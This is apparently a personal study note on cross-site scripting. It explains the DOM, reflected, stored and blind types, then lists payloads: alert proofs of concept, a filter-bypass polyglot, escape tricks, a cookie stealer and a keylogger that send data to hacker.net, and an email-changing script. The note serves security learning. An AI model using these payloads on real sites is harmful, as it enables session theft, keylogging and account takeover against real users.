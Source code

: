 ```yaml
---
creation date: November 15th 2022
last modified date: November 15th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: [[Injection Attack]] - [[JavaScript]] - [[Websites]] - [[DOM XSS]] - [[Reflected XSS]] - [[Stored XSS]] - [[Blind XSS]]
Search Tag: #📕  

# [[XSS]]  
___

## Description:  
This is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

## Types of XSS
### DOM XSS
Document Object Module(DOM) is a programming interface for HTML XML documents. It represents the page so that programs can change the document structure, style, and content.

This attack works by modifying the JavaScript that a website uses to modify its own pages. If we are able to modify this then when the page is loaded our malicious code will be called into action without needing the user to interact with anything else.

### Reflected XSS
This happens when a user-supplied data in an HTTP request is included in the webpage source without any validation. an example of this could be an error message which is in a query string of a URL that is reflected onto the webpage.
![[Pasted image 20221115155704.png]] 
This error message could be replaced with JavaScript code which gets executed when a user visits the page.

![[Pasted image 20221115160434.png]]
This could be sent to another user and when they open the link it will change their password to `pass123`

### Stored XSS
This XSS payload is stored on the web application (in a database, for example) and then gets run when the other users visit the site or web page. This attack is really damaging because of the amount of users that it can affect.
The attack itself could be done if for example a blog allows users to leave comments and the comment section isn't validated and checked for XSS payloads.
![[Pasted image 20221115160915.png]]
This image shows that we can leave a comment and it doesn't strip away HTML tag.

### Blind XSS
This is similar to Stored XSS in that we are getting our payload to store onto the database but we aren't able to test it for ourselves. This could be because the form we infected can only be checked by say an admin of the site so we only know it worked when an admin opens the form.


## Example Payloads
### Proof of Concept
- Used when we are just trying to demonstrate that we can get XSS on a website.
`<script>alert('XSS');</script>`
#### Escaping
- **Polyglots** What is this you might think. It is an all in one escape for bypassing filters/escaping attributes.
```Java
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
- The following can be when we need to escape the running code in order to get our script to run `">`
`"><script>alert('XSS');</script>`
- If we see the `<textarea>` as shown in image below then we can escape with the following
![[Pasted image 20221229225137.png]]
`</textarea><script>alert('XSS');</script>`
- If our code might be getting reflected directly into JavaScript code then we need to force exit the current code and input our script. The `';` first escapes the code and at the end the `//` will comment out all code after it. In the image **Sam** is our test input into the field.
![[Pasted image 20221229230958.png]]
`';alert('XSS');//`
- If we believe that the site is replacing parts of our script with nothing then we can try to trick it. The following image we tried `<script>alert('THM');</script>` and found its removing the work script.
![[Pasted image 20221229231630.png]]
`<sscriptcript>alert('XSS');</sscriptcript>`

### Session Stealing
- Takes a target's cookies, base64 encodes them to ensure successful transmission and then posts it to a website under the hacker's control.
`<script>fetch('https://hacker.net/steal?cookie=' + btoa(document.cookie));</script>`

### Key logger
- Anything webpage with this running on it will log everything typed on the page and then sent onto the hacker's controlled site for logging.
`<script>document.onkeypress = function(e) { fetch('https://hacker.net/log?key=' + btoa(e.key) );}</script>`

### Business Logic
- More specific in that we are looking for a particular network resource or JavaScript function. We could for example change an email address if we know the function that is used by running the following. In this example we are assuming the JavaScript function is calling `user.changeEmail`
`<script>user.changeEmail('attacker@hacker.thm');</script>`
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 15th 2022 (03:05 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
